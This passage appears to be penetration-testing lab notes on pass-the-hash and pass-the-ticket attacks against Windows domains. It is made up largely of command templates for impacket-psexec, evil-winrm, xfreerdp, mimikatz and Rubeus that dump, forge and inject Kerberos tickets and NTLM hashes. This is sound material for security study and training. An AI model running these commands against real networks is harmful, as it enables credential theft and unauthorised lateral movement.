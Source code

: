 **From Remote on Linux**
We'll be using [Impacket](https://github.com/SecureAuthCorp/impacket) for this:
```shell
impacket-psexec <user>@<host> -hashes :<hash>
```

We also have [evil-winrm](https://github.com/Hackplayers/evil-winrm) or just RDP:
```shell
evil-winrm -i <host> -u Administrator -H <hash>

xfreerdp  /v:<host> /u:<user> /pth:<hash>

# note that we'll need to run the following on the Windows host we intend to remote into using RDP
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0
```
# Pass the Ticket
We'll need `mimikatz` from the above section. We'll also be using [`Rubeus`](https://github.com/GhostPack/Rubeus) and [`Linikatz`](https://github.com/CiscoCXSecurity/linikatz). 
### Windows
##### Exporting Tickets
```shell
# Requires admin perms
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
exit

Rubeus.exe dump /nowrap
```
##### Converting Keys to Tickets
```shell
mimikatz.exe
privilege::debug
sekurlsa::ekeys
sekurlsa::pth /domain:<domain> /user:<user> /ntlm:<hash from ekeys>

Rubeus.exe asktgt /domain:<domain> /user:<user> /aes256:<aes key> /nowrap
```
##### Performing Pass the Ticket
```shell
mimikatz.exe 
privilege::debug
kerberos::ptt "C:/ticket/location"
exit
# We should have a shell of the user now

# If we've converted with rubeus, we can simply use the below
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:<hash> /ptt

# With Rubeus, we can import a ticket the following way:
Rubeus.exe ptt /ticket:<location>

# Convert .kirbi to B64
[Convert]::ToBase64String([IO.File]::ReadAllBytes("<path>"))
Rubeus.exe ptt /ticket:<B64>

# Rubeus allows us to create a sacrificial process to prevent erasure of TGTs for the session
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

# Lateral Movement:
Rubeus.exe asktgt /user:<user> /domain:<domain> /aes256:<hash> /ptt
powershell
```